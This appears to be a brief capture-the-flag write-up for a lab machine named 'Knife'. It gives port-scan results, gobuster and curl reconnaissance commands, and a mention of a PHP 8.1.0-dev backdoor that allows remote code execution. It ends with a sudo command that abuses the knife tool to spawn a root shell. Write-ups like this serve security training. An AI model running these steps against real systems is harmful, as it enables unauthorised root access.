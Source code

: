 # Knife

### Reconnaissance

- 22/tcp SSH OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
- 80/tcp HTTP Apache httpd 2.4.41 ((Ubuntu))

gobuster scan reveals index.php

`gobuster dir -u http://10.10.10.242 -w /usr/share/wordlists/dirb/common.txt -t 100`

Use curl to view headers of index.php reveling the PHP version as 8.1.0-dev

`curl -I http://10.10.10.242/index.php`

### Exploitation

This version of PHP has a back door allowing RCE

### Privilege Escalation

User may run /usr/bin/knife as root spawning a root shell

`sudo knife exec -E 'exec "/bin/sh"'`
